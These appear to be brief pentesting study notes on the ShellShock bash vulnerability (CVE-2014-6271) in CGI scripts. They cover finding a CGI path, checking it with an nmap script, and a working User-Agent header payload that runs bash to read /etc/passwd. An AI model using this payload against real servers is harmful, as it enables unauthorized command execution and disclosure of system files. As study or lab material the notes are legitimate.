


# ShellShock Vuln (CVE-2014-6271):

- cgi vulnerability
- view page-source, get uri of cgi file
- nmap script to check if server is vuln to shellshock:
	- http-shellshock --script-args “http-shellshock.uri=/gettime.cgi”
- https://github.com/opsxcq/exploit-CVE-2014-6271 : steps to exploit vuln

 
- send a burp request to cgi file and modify user-agent as above:
	- () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
	
	
	  